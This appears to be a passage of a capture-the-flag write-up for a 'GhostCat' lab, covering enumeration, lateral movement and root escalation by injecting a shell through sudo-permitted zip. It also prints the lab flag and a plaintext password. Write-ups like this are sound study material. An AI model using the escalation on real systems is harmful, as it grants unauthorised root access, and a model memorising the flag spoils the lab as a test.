 After gaining initial access as user `skyfuck`, comprehensive system enumeration was performed 🔎:

**🛠️ Tools Used:**
- `linpeas.sh` - Linux privilege escalation auditing script 📊
- `pspy64` - Process monitoring tool 👀
- `linux-exploit-suggester.sh` - Kernel vulnerability identification 🔍

**🔑 Key Findings:**
- Ubuntu 16.04.6 LTS with kernel 4.4.0-174-generic
- Multiple privilege escalation vectors identified ⚡
- ⏰ Cron job running as root: `* * * * * root cd /root/ufw && bash ufw.sh`
- 🐱 Tomcat service running as user `tomcat`

### 🚩 User Flag Capture

```bash
# 📂 Access merlin's home directory
cat /home/merlin/user.txt
THM{GhostCat_1s_so_cr4sy}
```

## ⚡ Privilege Escalation

### 🔄 Lateral Movement to Merlin

Using the decrypted credentials, access was obtained to user `merlin` 🔓:

```bash
su merlin
Password: asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

### 🔍 Sudo Privilege Analysis

Checking sudo permissions for user `merlin` revealed a critical misconfiguration ⚠️:

```bash
sudo -l
User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

### 👑 Root Access via ZIP Command Injection

The ZIP binary allowed command execution as root through a technique involving temporary files and command injection 💉:

```bash
# 📁 Create a temporary file pattern
TF=$(mktemp -u)

# 💥 Execute zip with command injection
sudo zip $TF /etc/hosts -T -TT 'sh #'
```

**🔧 Exploitation Details:**
- The `-T` option allows testing the archive integrity
- The `-TT` option specifies a command to execute for testing
- By injecting `sh #` as the test command, a root shell is spawned 🐚
